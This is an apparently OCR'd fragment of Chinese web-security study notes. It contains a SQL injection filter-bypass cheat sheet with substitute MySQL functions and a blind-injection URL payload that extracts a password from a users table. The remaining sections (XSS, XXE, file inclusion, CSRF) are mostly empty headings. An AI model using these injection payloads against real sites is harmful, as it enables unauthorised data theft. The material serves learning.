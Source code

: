      ```mysql
     hex()、bin() ==> ascii()
     
     sleep() ==>benchmark()
     
     concat_ws()==>group_concat()
     
     mid()、substr() ==> substring()
     
     @@user ==> user()
     
     @@datadir ==> datadir()
     
     举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
     
     或者：
     substr((select 'password'),1,1) = 0x70
     strcmp(left('password',1), 0x69) = 1
     strcmp(left('password',1), 0x70) = 0
     strcmp(left('password',1), 0x71) = -1
     ```

  6. 宽字节注入

     过滤`'`的时候往往利用的思路是将`'`转换为`\'`.

     看不懂。

     %df

## 三. XSS跨站脚本攻击

跨站脚本攻击（Cross Site Scripting）层叠样式表（Cascading Style   Sheets）

恶意攻击者在web页面中插入恶意HTML代码，当用户浏览该页时，嵌入其中web里面的html代码会被执行，从而达到而已攻击用户的特殊目的。

### 3.1 Cookies资料窃取

### 3.2 会话劫持

### 3.3 钓鱼欺骗



## 四. XXE(XML External Entity attack)

XML外部实体注入攻击

## 五. 命令执行

## 六. 文件包含

如果允许客户端用户输入控制动态包含在服务器端的文件，会导致恶意代码的执行与敏感信息泄露，主要包括本地文件包含和远程文件包含两种形式。



## 七. CSRF跨站请求伪造
